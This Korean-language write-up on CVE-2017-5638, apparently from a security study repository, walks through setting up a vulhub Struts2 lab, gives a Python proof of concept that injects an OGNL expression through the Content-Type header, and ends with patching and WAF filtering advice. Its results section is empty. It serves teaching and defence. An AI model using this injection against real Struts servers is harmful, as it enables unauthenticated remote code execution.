

# CVE-2017-5638
- [김민경(@minkyoung961)]

<br/>

## 요약

- Apache Struts2는 자바 기반의 엔터프라이즈 웹 애플리케이션을 개발하기 위한 오픈소스 프레임워크
- CVE-2017-5638은 Struts2의 파일 업로드를 처리하는 Jakarta Multipart 파서에서 발생하는 원격 코드 실행(RCE) 취약점
- 공격자가 HTTP 요청의 `Content-Type` 헤더에 악의적인 OGNL(Object-Graph Navigation Language) 표현식을 삽입하여 전송하면 서버가 에러 메시지를 생성하는 과정에서 해당 코드를 인터프리팅하여 임의의 명령이 실행
---

## 환경 구성 및 실행
- `docker compose up -d`를 실행하여 테스트 환경(vulhub/struts2/s2-045)을 실행
- `http://localhost:8080`에 접속하여 웹 서비스가 정상적으로 동작하는지 확인
- `python3 poc.py`를 실행하여 대상 서버에 조작된 `Content-Type` 헤더가 포함된 패킷을 전송
- `Content-Type` 내에 포함된 `addHeader('Hacked','Successfully')` OGNL 구문이 서버 메모리상에서 실행
---

## poc.py
```python
import requests

# 목적지 URL
url = "http://localhost:8080"

headers = {
    "Content-Type": "%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('Hacked','Successfully')}.multipart/form-data"
}

try:
    response = requests.post(url, headers=headers)
    
    print(f"HTTP/{response.raw.version/10} {response.status_code} {response.reason}")
    for key, value in response.headers.items():
        print(f"{key}: {value}")
    
    print("\n")
    
    print(response.text)

except requests.exceptions.RequestException as e:
    print(f"Error: {e}")
```
---

## 실행 및 결과


---

## 정리

- 이 취약점은 인증을 요구하지 않으며, 단일 HTTP 요청만으로 서버에서 임의의 코드를 실행하도록 만들 수 있어 매우 치명적
- 안전한 웹 서비스 운영을 위해 Apache Struts 2.3.32 또는 2.5.10.1 이상 버전으로 신속하게 업데이트해야 하며, 불가능할 경우 WAF를 통해 비정상적인 Content-Type 헤더(%{#, ognl 등)를 차단
